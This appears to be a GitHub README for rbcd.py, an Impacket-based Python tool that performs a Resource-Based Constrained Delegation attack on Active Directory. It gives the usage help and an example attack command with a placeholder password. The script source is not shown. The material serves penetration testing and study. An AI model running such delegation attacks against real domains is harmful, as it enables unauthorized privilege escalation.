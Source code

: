 # RBCD

Script written in python to perform Resource-Based Constrained Delegation (RBCD) attack by leveraging Impacket toolkit.

## Usage

```
usage: rbcd.py [-h] -u USERNAME -p PASSWORD -t COMPUTERNAME -f COMPUTERNAME HOSTNAME

Resource-Based Constrained Delegation Attack: allow an attacker controllable (preferably previously created fake) computer for delegation on a target computer (where the attacker has write
access to properties through LDAP)

Required options:
  HOSTNAME              Hostname/ip or ldap://host:port connection string to connect to the AD

Main options:
  -h, --help            show this help message and exit
  -u USERNAME, --user USERNAME
                        DOMAIN\username for authentication
  -p PASSWORD, --password PASSWORD
                        Password or LM:NTLM hash, will prompt if not specified
  -t COMPUTERNAME       Target computer hostname where the attacker has write access to properties
  -f COMPUTERNAME       (Fake) computer hostname which the attacker can control

Example: ./rbcd.py -host 10.10.10.1 -u domain\\user -p P@ssw0rd@123 -t WEB -f FAKECOMP
```

## Blog

[Abusing Resource-Based Constrained Delegation (RBCD) using Linux](https://www.alteredsecurity.com/post/resource-based-constrained-delegation-rbcd)

## Credit

This is a modified version of the [rbcd-attack](https://github.com/tothi/rbcd-attack) script which was initially developed by [an0n](https://twitter.com/an0n_r0). 